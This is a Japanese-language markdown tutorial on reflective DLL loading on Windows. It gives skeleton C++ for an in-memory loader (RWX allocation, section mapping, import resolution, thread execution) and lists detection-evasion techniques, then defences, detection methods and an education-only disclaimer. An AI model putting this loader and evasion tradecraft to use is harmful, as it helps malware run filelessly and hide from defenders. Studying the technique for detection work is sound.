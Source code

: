 # Reflective Loading Techniques

**対応OS**: Windows

## 概要
リフレクティブローディングは、ディスクに痕跡を残さずにメモリ上でDLLを直接ロードする手法です。

## 基本的な実装

### リフレクティブローダー
```cpp
typedef HMODULE (*REFLECTIVELOADER)(VOID);

HMODULE WINAPI ReflectiveLoader(VOID)
{
    // DLLのベースアドレスを取得
    ULONG_PTR uiBaseAddress = GetBaseAddress();
    
    // PEヘッダーの解析
    PIMAGE_NT_HEADERS pNtHeaders = GetNtHeaders(uiBaseAddress);
    
    // メモリの確保
    PVOID lpAddress = VirtualAlloc(NULL,
        pNtHeaders->OptionalHeader.SizeOfImage,
        MEM_RESERVE | MEM_COMMIT,
        PAGE_EXECUTE_READWRITE);
    
    // セクションのマッピング
    MapSections(lpAddress, uiBaseAddress);
    
    // 再配置の処理
    ProcessRelocations(lpAddress, uiBaseAddress);
    
    // インポートの解決
    ProcessImports(lpAddress);
    
    return (HMODULE)lpAddress;
}
```

### メモリ内実行
```cpp
// リフレクティブローダーの実行
LPVOID pReflectiveLoader = GetReflectiveLoader(lpBuffer);
HANDLE hThread = CreateThread(NULL, 0,
    (LPTHREAD_START_ROUTINE)pReflectiveLoader,
    NULL, 0, NULL);
```

## 高度なテクニック

### PEヘッダーの解析
```cpp
PIMAGE_NT_HEADERS GetNtHeaders(ULONG_PTR uiBaseAddress)
{
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)uiBaseAddress;
    return (PIMAGE_NT_HEADERS)((ULONG_PTR)uiBaseAddress + 
        pDosHeader->e_lfanew);
}
```

### インポート解決
```cpp
BOOL ProcessImports(PVOID lpAddress)
{
    // カーネル32のベースアドレス取得
    HMODULE hKernel32 = GetK32Base();
    
    // GetProcAddressの取得
    GETPROCADDRESS pGetProcAddress = GetGetProcAddress(hKernel32);
    
    // インポートの解決
    ResolveImports(lpAddress, hKernel32, pGetProcAddress);
    
    return TRUE;
}
```

## 検知回避テクニック
- PEヘッダーの難読化
- メモリパターンの偽装
- APIコールの隠蔽
- アンチデバッグ

## 防御策
- メモリスキャンの実施
- 不審なメモリ領域の検知
- APIフックの実装
- ヒューリスティック検知

## 検知方法
- 不審なメモリアロケーション
- PEシグネチャのスキャン
- APIコール監視
- メモリダンプ分析

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 